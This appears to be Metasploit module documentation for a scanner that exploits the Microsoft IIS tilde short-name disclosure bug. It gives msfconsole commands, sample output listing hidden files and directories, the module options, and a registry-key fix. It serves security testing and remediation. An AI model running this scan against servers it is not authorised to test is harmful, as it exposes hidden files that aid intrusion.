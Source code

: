
## Microsoft IIS shortname vulnerability scanner

The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to diclose 8.3 filenames (short names). In 2010, Soroush Dalili and Ali Abbasnejad discovered the original bug (GET request) This was publicly disclosed in 2012. In 2014, Soroush Dalili discovered that newer IIS installations are vulnerable with OPTIONS.

## Vulnerable Application

Older Microsoft IIS installations are vulnerable with GET, newer installations with OPTIONS
  
  
## Verification Steps

  1. Install IIS (default installations are vulnerable)
  2. Start msfconsole
  3. Check:
  
  ```
  msf > use auxiliary/scanner/http/iis_shortname_scanner
  msf auxiliary(iis_shortname_scanner) > set 172.16.249.128
  msf auxiliary(iis_shortname_scanner) > check
  [+] 172.16.249.128:80 The target is vulnerable.
  ```

  4. Scan:
  
  ```
  msf auxiliary(iis_shortname_scanner) > run
  [*] Scanning in progress...
  [+] Directories found
  http://172.16.249.128/aspnet~1
  http://172.16.249.128/secret~1
  [+] Files found
  http://172.16.249.128/web~1.con
  http://172.16.249.128/index~1.htm
  http://172.16.249.128/upload~1.asp
  http://172.16.249.128/upload~2.asp
  [*] Auxiliary module execution completed
  ```

## Options

```
  Module options (auxiliary/scanner/http/iis_shortname_scanner):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  PATH     /                yes       The base path to start scanning from
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                     yes       The target address
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host
```

## Remediation

Create registry key NtfsDisable8dot3NameCreation at HKLM\SYSTEM\CurrentControlSet\Control\FileSystem, with a value of 1


## References

    https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/
  * https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability
